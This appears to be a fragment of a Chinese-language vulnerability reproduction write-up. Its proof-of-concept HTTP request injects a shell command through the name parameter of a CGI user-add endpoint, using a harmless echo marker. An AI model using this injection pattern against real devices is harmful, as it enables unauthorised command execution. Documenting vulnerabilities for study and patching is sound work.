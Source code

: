 2.对漏洞进行复现

 **POC** 

漏洞复现

```
GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;echo%20mitian;%27 HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1
```